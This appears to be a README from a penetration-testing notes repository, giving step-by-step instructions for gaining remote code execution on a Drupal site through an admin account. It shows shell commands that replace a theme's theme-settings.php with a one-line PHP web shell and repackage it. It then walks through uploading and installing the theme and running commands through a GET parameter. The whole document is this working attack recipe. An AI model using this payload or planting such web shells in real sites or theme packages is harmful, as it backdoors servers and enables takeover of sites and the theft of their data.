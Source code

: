 # Drupal - Upload a plugin

## Requirements

 - A valid **username and password** of a user with **admin rights** on Drupal.

## Exploitation

Drupal restricts direct access to files and folders, so we have to inject our RCE payload into a theme-specific file that the CMS dynamically loads.

## Creating the theme archive

Visit the themes section on the Drupal website [here](https://www.drupal.org/project/project_theme) and download a theme zip file. We'll use the [Zen](https://www.drupal.org/project/zen/releases/8.x-7.0-alpha15) theme for this example.

After extracting the zip file, find and replace the `theme-settings.php` file with the RCE payload and recreate the zip file of the theme folder:

```sh
wget https://ftp.drupal.org/files/projects/zen-8.x-7.0-alpha15.zip
unzip zen-8.x-7.0-alpha15.zip
echo '<?php system($_GET[0]); ?>' > zen/theme-settings.php
zip -9 -r zen.zip zen/
```

## Accessing dashboard and installing theme

Login with a user with administrative rights on the Drupal at [http://TARGET/user/login](http://TARGET/user/login)

![](images/README/2022-06-27-04-46-36.png)

Select "Appearance" from the side menu and click "+Add new theme" on the next page, which should load the following page:

![](images/README/2022-06-27-05-04-26.png)

Select the modified theme zip file and click "Continue". If the files are uploaded, it should display a message similar to below:

![](images/README/2022-06-27-05-09-03.png)

Go back to the "Appearance" page and find the newly uploaded theme listed under the "Uninstalled themes" section. Click the "install" button under the theme name, and the theme should be under the "Installed themes" section now:

![](images/README/2022-06-27-05-11-55.png)

Click on the "settings" option of the theme, which will load the settings page with the injected RCE payload. In our case with the injected payload, we can add the GET parameter `?0=id` and receive RCE output:

![](images/README/2022-06-27-05-14-58.png)



## References
 - https://www.drupal.org/project/zen
